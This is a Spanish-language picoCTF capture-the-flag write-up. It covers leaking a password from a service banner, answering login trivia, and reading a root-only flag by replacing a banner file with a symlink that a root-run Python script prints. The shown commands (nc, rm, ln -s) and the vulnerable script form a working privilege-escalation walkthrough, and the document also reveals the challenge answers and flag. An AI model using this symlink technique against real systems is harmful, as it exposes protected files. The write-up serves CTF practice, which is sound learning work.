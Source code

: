***
### Descripción:
Can you abuse the banner?
Additional details will be available after launching your challenge instance.
***
The server has been leaking some crucial information on `tethys.picoctf.net 54223`. Use the leaked information to get to the server. To connect to the running application use `nc tethys.picoctf.net 49563`. From the above information abuse the machine and find the flag in the /root directory.

### Pistas: 
```
1.- Do you know about symlinks?
2.- Maybe some small password cracking or guessing
```

### Solución:
- **Primero le hacemos un net cat al primer puerto para obtener la contraseña.**
```bash
estefania@estefania-IdeaPad-3-14ALC6:~$ nc tethys.picoctf.net 54223
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```
- **Continuamos con el puerto siguiente, tenemos que contestar 3 preguntas, para que así nos permita entrar.**
```bash
estefania@estefania-IdeaPad-3-14ALC6:~$ nc tethys.picoctf.net 49563
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
```
- **Usamos ls para ver los archivos que contiene el servidor.**
```bash
player@challenge:~$ ls -la
ls -la
total 20
drwxr-xr-x 1 player player   20 Mar  9  2024 .
drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7  2024 banner
-rw-r--r-- 1 root   root     13 Feb  7  2024 text
```
- **Vemos 2 archivos sospechosos, así que los inspeccionamos.**
```bash
player@challenge:~$ cat banner	
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
cat text
keep digging
```
- **No hay mucha información útil, solo que sigamos investigando, por lo tanto veremos archivos que se encuentran en la raíz.**
```bash
player@challenge:~$ ls -la /root
ls -la /root
total 16
drwxr-xr-x 1 root root    6 Mar  9  2024 .
drwxr-xr-x 1 root root   29 Apr 15 20:45 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar  9  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
```
- **Vemos que hay un archivo txt de nombre 'flag', pero al no tener permisos de lectura no se puede hacer mucho, por lo que, mejor inspeccionamos el archivo de python.**
```bash
player@challenge:~$ cat /root/script.py
cat /root/script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```
- **Vemos que hay un archivo "necesario" en '/home/player/banner', por lo tanto eliminaremos aquel archivo.**
```bash
player@challenge:~$ rm /home/player/banner
rm /home/player/banner
```
- **Y ahora haremos que '/home/player/banner' ya no apunte al banner, sino a la bandera**
```bash
player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
```
- **Salimos y entramos nuevamente, viendo que ya no aparece el banner, sino que, ahora muestra la bandera.**
```bash
estefania@estefania-IdeaPad-3-14ALC6:~$ nc tethys.picoctf.net 49563
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}

what is the password? 
```

### Bandera:
```
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}
```
